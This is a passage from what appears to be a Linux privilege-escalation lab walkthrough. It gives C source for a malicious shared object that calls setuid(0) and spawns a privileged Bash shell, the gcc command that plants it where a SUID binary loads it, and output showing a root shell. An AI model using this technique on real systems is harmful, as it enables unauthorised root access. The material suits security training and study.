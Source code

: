 - Example shared object code can be found at `/home/user/tools/suid/libcalc.c`. It simply spawns a Bash shell. Compile the code into a shared object at the location the suid-so executable was looking for it:

    - libcalc.c:

        ```c
        user@debian:~$ cat /home/user/tools/suid/libcalc.c
        #include <stdio.h>
        #include <stdlib.h>

        static void inject() __attribute__((constructor));

        void inject() {
                setuid(0);
                system("/bin/bash -p");
        }
        ```

    - Compiling.

        ```bash
        user@debian:~$ gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/tools/suid/libcalc.c
        ```

- Execute the suid-so executable again, and note that this time, instead of a progress bar, we get a root shell.

    ```bash
    user@debian:~$ /usr/local/bin/suid-so
    Calculating something, please wait...
    bash-4.1# 
    ```

## SUID / SGID Executables - Environment Variables
TO-DO
